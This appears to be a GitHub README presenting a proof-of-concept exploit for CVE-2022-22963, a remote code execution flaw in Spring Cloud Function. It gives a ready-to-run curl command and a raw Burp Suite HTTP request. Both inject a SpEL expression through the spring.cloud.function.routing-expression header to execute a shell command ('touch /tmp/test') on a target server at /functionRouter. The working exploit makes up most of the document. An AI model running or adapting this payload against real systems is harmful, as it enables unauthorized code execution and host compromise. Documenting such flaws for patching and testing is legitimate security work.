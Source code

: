 # Spring Cloud RCE vulnerability in Java application
HIGH vulnerability on the Spring Cloud Function leading to remote code execution (RCE). The vulnerability CVE-2022-22963 would allow attackers to execute arbitrary code on the machine and compromise the entire host.

### Is vulnerable?
If the application uses Spring Boot App (spring-cloud-function), it will most likely be vulnerable.

### Exploitation
This vulnerability allows using HTTP request header *spring.cloud.function.routing-expression* parameter and SpEL expression to be injected and executed through StandardEvalutionContext.

Curl command
```
curl -i -s -k -X $'POST' -H $'Host: 192.168.1.2:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary $'exploit_poc' $'http://192.168.1.2:8080/functionRouter'
```
#### OR

Using Burpsuite by modifying the request header
```
POST /functionRouter HTTP/1.1
Host: {target-ip}:{target-port}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15/2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/test")
Content-Length: 11

exploit-poc
```

### References
https://sysdig.com/blog/cve-2022-22963-spring-cloud/
